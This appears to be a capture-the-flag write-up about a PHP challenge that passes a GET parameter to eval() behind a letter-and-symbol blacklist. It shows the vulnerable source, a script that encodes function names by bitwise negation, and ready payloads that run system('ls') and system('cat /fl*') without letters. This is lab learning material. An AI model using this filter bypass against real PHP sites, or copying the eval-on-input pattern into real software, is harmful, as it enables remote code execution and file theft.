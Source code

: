 #RCE 

```php
<?php   
	header("Content-Type:text/html;charset=utf-8");   
	error_reporting(0);   
	highlight_file(__FILE__);   
	if(isset($_GET['wllm']))
	{    
		$wllm = $_GET['wllm'];    
		$blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];       
		foreach ($blacklist as $blackitem)       {           if (preg_match('/' . $blackitem . '/m', $wllm)) {           
			die("LTLT说不能用这些奇奇怪怪的符号哦！");       
		}
	}   
	if(preg_match('/[a-zA-Z]/is',$wllm))   {       
		die("Ra's Al Ghul说不能用字母哦！");   
	}   
	echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";   
	eval($wllm);   }   
	else   {       
	echo "蔡总说：注意审题！！！";   }   
?>
```

[无字母数字绕过正则表达式总结含上传临时文件、异或、或、取反、自增脚本](https://blog.csdn.net/miuzzx/article/details/109143413)


无字母 RCE
本题可以取反
取反PHP脚本
```php
<?php
fwrite(STDOUT, '[+]your function: ');
$system = str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
fwrite(STDOUT, '[+]your command: ');
$command = str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
echo '[*] (~' . urlencode(~$system) . ')(~' . urlencode(~$command) . ');';
```

参考
[一些不包含数字和字母的webshell | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

#### 取反(~)
```php
<?php
$a = 'system';
$b = 'cat /fl*';
$ak = urlencode(~$a);
$bk = urlencode(~$b);
echo '(' . '~' . $ak . ')' . '(' . '~' . $bk . ')';
```

```php
system('ls');
// (~%8C%86%8C%8B%9A%92)(~%93%8C);
system('cat /fl*');
// (~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%D5);
```

[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）_数字绕过+_yu22x的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/109143413)

